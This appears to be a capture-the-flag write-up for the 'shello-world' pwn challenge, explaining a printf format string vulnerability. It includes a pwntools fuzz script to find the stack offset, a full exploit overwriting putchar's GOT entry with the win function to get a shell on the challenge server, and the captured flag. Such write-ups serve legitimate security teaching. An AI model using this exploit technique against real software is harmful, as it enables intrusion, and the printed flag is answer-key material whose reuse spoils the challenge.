 # SHELLO-WORLD

## Description

> Greetings, traveler
>
> Author: tomadimitrie
>
> [shello-world](./shello-world)

Tags: _pwn|warmup_

## Solution

Before even running the program, I like to examine the source code using `ghidra` to understand exactly what it does. The program consists of three functions: _main_, _vuln_ and _win_. The _win_ function grants access to a shell, which is our objective to achieve in order to win. The _main_ function simply calls the _vuln_ function, and the _vuln_ function is as follows:

```c
void vuln(void)

{
  ...

  fgets((char *)&local_108,0x100,stdin);
  printf("Hello, ");
  printf((char *)&local_108);
  putchar(10);
  return;
}
```

It defines several local variables and uses `fgets` to retrieve user input, with a buffer size of `0x100` in hexadecimal or `256` in decimal. After that, it prints "Hello, " followed by the user input and concludes by calling `putchar(10)` to print a newline.

I tried to perform a buffer overflow against this binary, but it didn't work due to the input length restriction imposed by `fgets`. However, there is still a way to exploit this program using a `string format vulnerability`, where the attacker can read information from the stack or even gain an arbitrary write primitive. We can confirm that the binary is vulnerable because if we input format string specifiers like `%p`, it will start leaking pointers from the stack.

```
$ ./shello-world
%p %p %p %p
Hello, 0x7fff2bae3e30 (nil) (nil) 0x1
```

To exploit this vulnerability, we need to follow these steps:

1. Find the offset from where `printf` starts reading from the stack to our input. This offset will be used later to building the exploit.
2. Identify a function that is called after the vulnerable `printf`, like `putchar`.
3. Create the appropriate exploit to overwrite the address of the target function (`putchar`) in the Global Offset Table (GOT) with the address of the _win_ function. This way, when the program calls `putchar`, it will actually call _win_.

To find the offset I used the following Python script that sends the payload `AAAAAAAA%[counter]%p` to the program 100 times and retrieve the responses.

```python
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF("shello-world", checksec=False)

# Let's fuzz 100 values
for i in range(100):
    try:
        # Create process (level used to reduce noise)
        io = process(elf.path, level='error')
        # Print the pointer at offset i
        io.sendline(b'A'*8 + '%{}$p'.format(i).encode())
        # Receive the response with a large buffer size
        result = io.recv(4096)
        # Find the position of 'Hello, ' in the response
        hello_pos = result.find(b'Hello, ')
        if hello_pos != -1:
            # Extract the formatted value from the response
            formatted_value = result[hello_pos + len(b'Hello, '):].strip()
            print(f"{i}: {formatted_value}")
        # Exit the process
        io.close()
    except EOFError:
        pass
```

The output of the script should look like this:

```
$ python fuzz.py
0: b'AAAAAAAA%0$p'
1: b'AAAAAAAA0x7ffdc830b720'
2: b'AAAAAAAA(nil)'
3: b'AAAAAAAA(nil)'
4: b'AAAAAAAA0x1'
5: b'AAAAAAAA(nil)'
6: b'AAAAAAAA0x4141414141414141'
7: b'AAAAAAAA0xa70243725'
8: b'AAAAAAAA(nil)'
...
```

We can see that our input `AAAAAAAA` is written at the offset `6` in the stack, remember that `4141414141414141` is `AAAAAAAA` in hexadecimal.

After finding the offset, we can write the payload manually but the formula to do that gets a little bit complex, however you can read how to do it [here](https://axcheron.github.io/exploit-101-format-strings/#writing-to-the-stack)

Instead I used the `pwntools` module `FmtStr()` to automate the calculation and exploitation. Remember that everything else outside the exploit section is a template where you should change just a few things like the `REMOTE` parameters with the connection values of your container.

```python
#!/usr/bin/python3
from pwn import *

# Set up the target binary by specifying the ELF file
elf = context.binary = ELF("shello-world")

# Defining the GDB script that will be used when running the binary
gs = '''
continue
'''
# Launch the binary with GDB, without GDB or REMOTE based on the command-line arguments
def start():
    if args.REMOTE:
        return remote("challs.tfcctf.com", 31769)
    else:
        if args.GDB:
            return gdb.debug(elf.path, gdbscript=gs)
        else:
            return process(elf.path)

io = start()

#============================================================
#                    EXPLOIT GOES HERE
#============================================================

# Create the FmtStr object and specify the offset to the first argument on the stack
format_string = FmtStr(execute_fmt=io.sendline, offset=6)

# Overwrite putchar() in GOT with win()
format_string.write(elf.got.putchar, elf.sym.win)

# Execute the format string writes
format_string.execute_writes()

#============================================================

# Interact with the process
io.interactive()
```

Execute the script with the `REMOTE` parameter and get the flag!

```shell
$ ./solve.py REMOTE
[*] '/home/jovenoven/Downloads/TFC_CTF/pwn/shello-world/shello-world'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to challs.tfcctf.com on port 30965: Done
[*] format string offset: 6
[*] address to overwrite (elf.got.printf): 0x404000
[*] address to write (elf.sym.win): 0x401176
[*] Switching to interactive mode
Hello,                                                                                                                                                                                                                                                                                 \x00                                              7aaaab$
$ whoami
ctf
$ ls
flag.txt
shello-world
$ cat flag.txt
TFCCTF{ab45ed10bb240fe11c5552d3db6776f708c650253755e706268b45f3aae6d925}
```

Flag `TFCCTF{ab45ed10bb240fe11c5552d3db6776f708c650253755e706268b45f3aae6d925}`
